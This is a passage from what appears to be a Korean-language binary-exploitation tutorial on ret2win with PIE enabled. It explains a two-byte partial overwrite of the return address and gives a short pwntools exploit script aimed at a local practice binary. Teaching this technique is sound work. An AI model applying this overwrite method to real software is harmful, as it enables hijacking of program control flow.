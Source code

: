 {% hint style="success" %}
바이너리를 **`-no-pie` 인수 없이 컴파일하세요**
{% endhint %}

### Off-by-2

리크가 없으면 승리 함수의 정확한 주소를 알 수 없지만, 바이너리에서 함수의 오프셋을 알 수 있으며, 우리가 덮어쓰고 있는 반환 주소가 이미 가까운 주소를 가리키고 있다는 것을 알면, 이 경우 승리 함수의 오프셋(**0x7d4**)을 리크하고 그 오프셋을 사용할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (1213).png" alt="" width="563"><figcaption></figcaption></figure>
```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p16(0x07d4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```
{% hint style="success" %}